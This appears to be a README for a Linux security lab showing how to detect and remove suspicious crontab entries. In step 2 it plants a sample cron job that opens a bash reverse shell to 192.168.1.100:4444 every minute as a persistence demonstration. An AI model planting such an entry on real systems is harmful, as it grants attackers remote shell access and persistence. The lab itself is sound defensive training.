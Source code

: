 # Crontab Monitoring for Suspicious Scheduled Tasks

This project demonstrates how to monitor and detect suspicious or malicious scheduled tasks on a Linux system using `crontab`.

##  **Tools Used**

- **Crontab**: A time-based job scheduler in Unix-like systems.
- **Kali Linux**: Host operating system.

---

##  **Steps Taken**

###  1. **View Current User’s Crontab**

Checked the current user's scheduled jobs to verify if any exist:

```bash
crontab -l
```

If no jobs are listed, it means there are no scheduled tasks for the current user.

---

###  2. **Create a Suspicious Cron Job**

Edited the current user's crontab to simulate an unauthorized task (e.g., reverse shell or hidden script):

```bash
crontab -e
```

Inside the editor, added a suspicious job such as:

```
* * * * * /bin/bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

>  _This job mimics a reverse shell attempting to connect to a remote server every minute._

---

###  3. **List and Analyze Crontab Again**

Ran the command to list current jobs and reviewed any potentially harmful entries:

```bash
crontab -l
```

Screenshot was taken at this stage.

---

###  4. **Remove Suspicious Entry**

Removed the suspicious cron entry by opening the editor again and deleting the line:

```bash
crontab -e
```

Saved and exited to confirm changes.

---

##  **Screenshot**

![Suspicious crontab job](./screenshot.png)

---

##  **Summary**

Crontab entries can be leveraged by attackers to maintain persistence or automate malicious behavior. This project highlights how routine monitoring of cron jobs can help detect unauthorized tasks early. Regular audits are essential to prevent silent backdoors and maintain system integrity.

